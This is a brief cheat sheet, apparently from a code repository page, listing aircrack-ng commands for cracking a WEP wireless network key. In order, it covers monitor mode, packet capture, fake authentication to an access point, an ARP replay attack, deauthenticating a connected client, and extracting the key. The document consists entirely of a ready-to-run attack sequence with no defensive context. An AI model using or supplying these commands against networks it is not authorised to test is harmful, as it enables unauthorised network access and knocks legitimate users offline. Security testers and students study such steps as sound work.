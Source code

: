  **Start Interface**  
 ```bash
airmon-ng start <interface> <AP channel>  
```
  
**Start Dump Capture** 
```bash
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface> 
```
  
  
**Fake Authenticate to AP**  
```bash
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>  
```
  
**Launch ARP request replay attack**  
```bash
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>  
```
  
**Deauthenticate connected Client**  
```bash
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>  
```
  
**Extract Key from Capture after enough IVs have been generated**  
```bash
aircrack-ng <capture>
```